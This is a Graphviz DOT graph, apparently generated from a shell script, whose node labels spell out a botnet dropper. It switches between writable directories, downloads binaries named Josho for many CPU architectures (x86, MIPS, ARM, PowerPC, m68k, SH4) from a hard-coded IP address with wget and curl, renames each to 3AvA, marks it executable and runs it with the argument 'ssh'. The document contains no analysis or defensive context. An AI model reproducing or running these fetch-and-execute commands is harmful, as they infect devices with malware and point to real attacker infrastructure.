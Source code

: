digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://178.128.32.219/AB4g5/Josho.x86 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://178.128.32.219/AB4g5/Josho.x86 "];
12 -> 14 [label=";,"];
14 [label="cat Josho.x86 3AvA "];
14 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 32 [label="||,"];
32 [label="wget http://178.128.32.219/AB4g5/Josho.mips "];
32 -> 34 [label=";,"];
34 [label="curl -O http://178.128.32.219/AB4g5/Josho.mips "];
34 -> 36 [label=";,"];
36 [label="cat Josho.mips 3AvA "];
36 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 54 [label="||,"];
54 [label="wget http://178.128.32.219/AB4g5/Josho.mpsl "];
54 -> 56 [label=";,"];
56 [label="curl -O http://178.128.32.219/AB4g5/Josho.mpsl "];
56 -> 58 [label=";,"];
58 [label="cat Josho.mpsl 3AvA "];
58 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 76 [label="||,"];
76 [label="wget http://178.128.32.219/AB4g5/Josho.arm4 "];
76 -> 78 [label=";,"];
78 [label="curl -O http://178.128.32.219/AB4g5/Josho.arm4 "];
78 -> 80 [label=";,"];
80 [label="cat Josho.arm4 3AvA "];
80 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 98 [label="||,"];
98 [label="wget http://178.128.32.219/AB4g5/Josho.arm5 "];
98 -> 100 [label=";,"];
100 [label="curl -O http://178.128.32.219/AB4g5/Josho.arm5 "];
100 -> 102 [label=";,"];
102 [label="cat Josho.arm5 3AvA "];
102 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 120 [label="||,"];
120 [label="wget http://178.128.32.219/AB4g5/Josho.arm6 "];
120 -> 122 [label=";,"];
122 [label="curl -O http://178.128.32.219/AB4g5/Josho.arm6 "];
122 -> 124 [label=";,"];
124 [label="cat Josho.arm6 3AvA "];
124 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 142 [label="||,"];
142 [label="wget http://178.128.32.219/AB4g5/Josho.arm7 "];
142 -> 144 [label=";,"];
144 [label="curl -O http://178.128.32.219/AB4g5/Josho.arm7 "];
144 -> 146 [label=";,"];
146 [label="cat Josho.arm7 3AvA "];
146 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 164 [label="||,"];
164 [label="wget http://178.128.32.219/AB4g5/Josho.ppc "];
164 -> 166 [label=";,"];
166 [label="curl -O http://178.128.32.219/AB4g5/Josho.ppc "];
166 -> 168 [label=";,"];
168 [label="cat Josho.ppc 3AvA "];
168 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 186 [label="||,"];
186 [label="wget http://178.128.32.219/AB4g5/Josho.m68k "];
186 -> 188 [label=";,"];
188 [label="curl -O http://178.128.32.219/AB4g5/Josho.m68k "];
188 -> 190 [label=";,"];
190 [label="cat Josho.m68k 3AvA "];
190 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./3AvA ssh "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://178.128.32.219/AB4g5/Josho.sh4 "];
208 -> 210 [label=";,"];
210 [label="curl -O http://178.128.32.219/AB4g5/Josho.sh4 "];
210 -> 212 [label=";,"];
212 [label="cat Josho.sh4 3AvA "];
212 -> 214 [label=";,"];
214 [label="3AvA "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
}
